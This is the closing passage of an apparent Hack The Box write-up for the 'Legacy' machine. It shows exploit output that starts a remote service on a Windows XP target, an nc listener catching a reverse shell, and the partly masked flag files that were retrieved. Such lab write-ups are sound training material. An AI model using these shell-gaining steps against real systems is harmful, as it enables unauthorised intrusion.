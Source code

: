 ```console
Opening SVCManager on 10.10.10.4.....
Creating service TMkY.....
Starting service TMkY.....
The NETBIOS connection with the remote host timed out.
Removing service TMkY.....
ServiceExec Error on: 10.10.10.4
nca_s_proto_error
Done
```

look over at listener and we've got a shell:

```console
root@apollo:~/htb/legacy# nc -lvnp 42069
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::42069
Ncat: Listening on 0.0.0.0:42069
Ncat: Connection from 10.10.10.4.
Ncat: Connection from 10.10.10.4:1028.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>

...

C:\Doucments and Settings\Administrator\Desktop\root.txt
99344********************5d5713

C:\Doucments and Settings\john\Desktop\user.txt
e69af********************7644f
```

# Conclusion
This was a very fun box - albeit very easy. It was fun doing it without metasploit and employing some of the techniques I learned from PWK\OSCP. 
